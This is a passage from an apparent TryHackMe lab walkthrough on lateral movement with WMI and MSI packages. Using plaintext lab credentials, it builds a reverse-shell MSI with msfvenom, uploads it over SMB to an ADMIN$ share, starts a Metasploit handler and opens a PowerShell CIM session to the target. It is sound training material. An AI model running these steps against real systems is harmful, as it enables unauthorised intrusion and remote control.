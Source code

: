   

## Let's Get to Work!

To complete this exercise, you will need to connect to THMJMP2 using the credentials assigned to you on Task 1 from [http://distributor.za.tryhackme.com/creds](http://distributor.za.tryhackme.com/creds). If you haven't done so yet, click on the link and get credentials. Once you have your credentials, connect to THMJMP2 via SSH:

`ssh za\\<AD Username>@thmjmp2.za.tryhackme.com`

For this exercise, we will assume we have already captured some credentials with administrative access:

**User:** ZA.TRYHACKME.COM\t1_corine.waters

**Password:** Korine.1994

We'll show how to use those credentials to move laterally to THM-IIS using WMI and MSI packages. Feel free to try the other methods presented during this task.

We will start by creating our MSI payload with msfvenom from our attacker machine:

**Note:** Since you will be sharing the lab with others, you'll want to use a different filename for your payload instead of "myinstaller.msi" to avoid overwriting someone else's payload.  

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi
```

We then copy the payload using SMB or any other method available:

```shell-session
user@AttackBox$ smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
 putting file myinstaller.msi as \myinstaller.msi (0.0 kb/s) (average 0.0 kb/s)
```

Since we copied our payload to the ADMIN$ share, it will be available at C:\Windows\ on the server.

We start a handler to receive the reverse shell from Metasploit:

```shell-session
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4445
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.10.16:4445
```

Let's start a WMI session against THMIIS from a Powershell console:

THMJMP2:Powershell

```shell-session
PS C:\> $username = 't1_corine.waters';
PS C:\> $password = 'Korine.1994';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
PS C:\> $Opt = New-CimSessionOption -Protocol DCOM
PS C:\> $Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
```
